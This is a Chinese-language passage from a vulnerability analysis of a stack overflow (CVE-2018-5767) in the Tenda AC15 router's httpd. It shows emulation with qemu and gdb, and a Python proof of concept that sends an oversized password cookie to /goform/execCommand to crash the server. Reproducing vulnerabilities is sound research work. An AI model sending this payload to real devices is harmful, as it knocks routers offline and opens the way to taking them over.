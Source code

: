 使用qemu-user-static进行调试

在squashfile目录 `sudo chroot . ./qemu -g 12345 bin/httpd`

使用gdb-mulitarch配合**peda插件**开启, 

使用poc.py打到br0端口的ip地址

```python
import requests

ip  = "192.168.139.131"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password="+"A"*501}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

使用gdb查看调用栈

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%209.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%209.png)

可以看到在0x2c5cc处发生了崩溃, c此处位strstr()函数

![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%2010.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)%208fcdfaea1f774715b9f58e593e897ffb/Untitled%2010.png)
